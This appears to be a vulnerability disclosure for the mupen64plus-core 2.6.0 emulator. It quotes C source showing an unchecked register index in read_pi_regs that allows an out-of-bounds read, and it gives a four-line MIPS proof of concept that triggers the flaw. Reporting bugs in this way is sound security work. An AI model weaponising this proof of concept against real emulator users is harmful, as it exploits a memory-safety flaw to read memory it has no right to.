

### BUG4 pi_reg overflow

#### Vulnerability Analysis

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/pi/pi_controller.c#L151
void read_pi_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct pi_controller* pi = (struct pi_controller*)opaque;
    uint32_t reg = pi_reg(address);

    *value = pi->regs[reg];
    ...
}


// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/pi/pi_controller.h#L88
static osal_inline uint32_t pi_reg(uint32_t address)
{
    return (address & 0xffff) >> 2;
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/pi/pi_controller.h#L75
struct pi_controller
{
    uint32_t regs[PI_REGS_COUNT];

    pi_dma_handler_getter get_pi_dma_handler;

    struct cart* cart;
    struct dd_controller* dd;
    struct mi_controller* mi;
    struct ri_controller* ri;
    struct rdp_core* dp;
};
```

#### Reproduction

- poc.asm

```asm
0000000000000000 <_start>:
   0:   3c048460        lui     a0,0x8460
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```

